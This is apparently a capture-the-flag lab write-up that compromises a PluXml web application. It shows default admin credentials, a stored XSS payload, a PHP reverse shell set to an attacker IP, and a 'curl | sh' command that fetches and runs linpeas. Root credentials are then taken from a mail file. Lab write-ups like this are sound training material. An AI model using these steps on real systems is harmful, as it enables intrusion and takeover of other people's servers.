









# Recon

## Nmap
```
nmap -sC -sV -p- --open <ip>
```


There is a web application built with PluXml.

---

Browsing the web application, there is an admin login.


The login credentials are simple `admin:admin`


Notice that the url ends in `.php` like `http://192.168.165.28/core/admin/index.php?page=1`
- Also, the version of PluXml is shown 

Searching for the version of PluXml unveils a [remote code execution exploit and a cross site scripting vulnerability](https://github.com/MoritzHuppert/CVE-2022-25018/blob/main/CVE-2022-25018.pdf).


# Cross-Site Scripting
An article can be created with the following
1. Click on **New Article**
2. In any input box, use the following payload
```
<script>alert(1)</script>
```
- This will inject a JavaScript script and will run under the context of the user who clicks on the link to the article seen below


3. Save the draft and publish the article.

When clicking on the link that is generated after publishing the article, an alert is generated. This confirms the cross-site scripting vulnerability.
- In this case the link is `http://192.168.165.28/index.php?article2/test1`

## Remote Code Execution
Go to **Static Pages** and edit a page.
- [Use this PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Replace the content with the php script.
- replace the IP address for your listener IP
- use the port that is configured to listen (4444)
```
$VERSION = "1.0";
$ip = '192.168.45.212';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
```

Start a netcat listener in a linux command line.
``` bash
nc -lnvp 4444
```

Save the page and click **View page Static 1 on site**
- a connection will be made with the php server


### Linux Privilege Escalation
#### Linpeas.sh
Using [linpeas.sh](https://linpeas.sh/), start a python server in the directory with linpeas.sh
```
┌──(kali㉿kali)-[/opt]
└─$ ls            
linpeas.sh

┌──(kali㉿kali)-[/opt]
└─$ python3 -m http.server 80                                                   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

In the netcat listener run the following command to fetch and run the `.sh` script.
```
curl {IP}/linpeas.sh | sh
```

Going through the linpeas output, there is an interesting mail section


Looking at the contents of `/var/mail/www-data` the credentials for the root user can be found


Use this password when switching to the root user with `su root`


The flag (local.txt) can be found in the `/var/www` directory.
The flag (proof.txt) can be found in the `/root` directory.

# Summary

Vulnerabilities in the PluXml web application were exploited, including an **_XSS flaw_** and **_remote code execution_**. I was able to gain access, escalate privileges using Linpeas.sh, and find root credentials in mail logs

Join me for the next machine soon for more exciting challenges and security insights!

+10 points